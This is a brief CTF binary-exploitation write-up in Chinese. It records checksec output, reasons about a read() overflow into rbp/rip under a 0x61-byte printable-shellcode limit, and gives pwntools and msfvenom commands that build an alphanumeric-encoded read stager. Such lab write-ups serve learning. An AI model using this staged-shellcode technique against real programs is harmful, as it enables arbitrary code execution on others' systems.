 ```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : ENABLED
NX        : disabled
PIE       : disabled
RELRO     : Partial
```

GCC: (Ubuntu 5.4.0-6ubuntu1~16.04.4) 5.4.0 20160609) 或許可猜 gcc 版本

必須注意 read 大小過大可能可以利用，而 0x20 = 32 ，剛好可以接觸 rbp 和 rip ，而這題應該是 printable shellcode 唯一需要注意的是大小 限制在 0x61 = 97。

![./img/Untitled%20130.png](./img/Untitled%20130.png)

至於 0x61 的限制，msfvenom 使用 `--smallest` 依然過大，因此先嘗試進行 read

```
context.os='linux'
context.arch = 'amd64'

asm(shellcraft.read('rbp', 0x200) + 'jmp rbp')
echo -n '1\xc0H\x89\xefj\x08Z\xbe\x01\x01\x01\x01\x81\xf6\x01\x03\x01\x01\x0f\x05\xff\xe5' |msfvenom -a x64 --platform linux -p - -e x64/alpha_mixed BufferRegister=RBP -f python --smallest
```

